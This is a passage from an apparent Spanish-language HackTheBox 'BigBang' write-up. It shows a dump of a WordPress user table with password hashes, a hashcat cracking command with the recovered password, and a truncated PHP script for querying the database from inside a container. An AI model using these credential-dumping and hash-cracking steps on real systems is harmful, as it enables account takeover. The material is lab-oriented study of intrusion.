 ```bash
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.106 sec)

MySQL [wordpress]> SELECT * FROM wp_users; 
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
|  1 | root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root          | root@bigbang.htb     | http://blog.bigbang.htb | 2024-05-31 13:06:58 |                     |           0 | root            |
|  3 | shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking      | shawking@bigbang.htb |                         | 2024-06-01 10:39:55 |                     |           0 | Stephen Hawking |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
2 rows in set (0.116 sec)
```
Podemo crakear esto con hashcat

`$ hashcat hashes rockyou.txt --user`

si tenemos una pc potente, encontraremos que la contraseña es `quantumphysics`

Otra forma fue crear un fichero que hiciera la consulta dentro del contenedor: 
```bash 
<?php
if ($argc < 2) {
    die("Usage: php script.php \"SQL_QUERY\"\n");
}

$query = $argv[1];
$host = '172.17.0.1';
$user = 'wp_user';
$password = 'wp_password';
$database = 'wordpress'; // Change this if needed
$conn = new mysqli($host, $user, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error . "\n");
}

$result = $conn->query($query);
if ($result === false) {
    die("Query error: " . $conn->error . "\n");
}
if ($result instanceof mysqli_result) {
    while ($row = $result->fetch_assoc()) {
        echo json_encode($row, JSON_PRETTY_PRINT) . "\n";
    }
    $result->free();
} else {
    echo "Query executed successfully.\n";
```